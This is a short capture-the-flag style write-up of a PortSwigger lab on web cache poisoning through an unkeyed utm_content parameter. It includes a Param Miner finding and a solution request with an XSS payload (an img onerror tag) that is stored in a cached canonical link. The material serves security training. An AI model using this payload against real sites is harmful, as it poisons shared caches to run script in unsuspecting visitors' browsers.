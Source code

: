 # [Lab: Web cache poisoning via an unkeyed query parameter](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-unkeyed-param)

## Lab

This lab is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. A user regularly visits this site's home page using Chrome.

To solve the lab, poison the cache with a response that executes `alert(1)` in the victim's browser.

## Analysis

param miner result:

```text
Web Cache Poisoning: Parameter Cloaking

Issue detail
The application can be manipulated into excluding the utm_content parameter from the cache key, by disguising it as utm_content.
```

## Solutions

cache poisoning:

```http
GET /?utm_content=hacked'><img+src%3d1+onerror%3d'alert()'>// HTTP/1.1
```

- cached:

  ```http
  <link rel="canonical" href='//id.web-security-academy.net/?utm_content=hacked'><img src=1 onerror='alert()'>//'/>
  ```
